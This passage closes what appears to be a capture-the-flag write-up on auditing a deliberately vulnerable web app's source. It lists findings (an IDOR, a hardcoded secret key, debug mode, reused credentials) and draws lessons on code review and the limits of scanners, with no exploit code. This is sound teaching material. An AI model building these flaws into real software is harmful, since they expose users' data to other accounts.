| 4 | Broken Access Control (IDOR) | `/vault/<int:item_id>` (app.py:105-114) | No ownership check on parameterized query | ✅ confirmed, no flag attached |
| 5 | Hardcoded Secret | `config.py:6` | `SECRET_KEY` committed as string literal | Confirmed, not actively forged in this room |
| 6 | Debug Mode Enabled | `config.py:7` | `DEBUG = True` | Confirmed, contributory (aids error-based recon) |

**Classes deliberately absent from this app** (and worth noting in a real report — a complete audit records what *isn't* there too): no command injection sink (no `subprocess`/`os.system` with `shell=True`), no insecure deserialization sink (no `pickle.loads`/unsafe `yaml.load`).

---

## Takeaways

- **Reading order beats random file-opening.** README → manifest → config → routes → auth → models → handlers gets you oriented before you've hunted a single bug, and the categories transfer to any framework even when filenames change.
- **grep gives candidates, not verdicts.** Every hit still needs a human to confirm the value reaching the sink is actually attacker-controlled.
- **Semgrep missed the IDOR entirely.** It's genuinely blind to business-logic flaws like missing ownership checks — that class of bug needs a human reading the handler against the data model, every time. Auth ≠ authorization, and a `@login_required` decorator can make a route *feel* safe while leaving it wide open to any other authenticated user.
- **One handler, two sinks.** The `/search` route fed the *same* user input into both a SQL sink and a template-rendering sink. Tracing source-to-sink means checking every place a value ends up, not stopping at the first dangerous call you find.
- **Password reuse across systems is itself a finding.** The SSH review account and the web app login shared identical credentials — worth flagging even though it wasn't the intended attack path in this room.

---


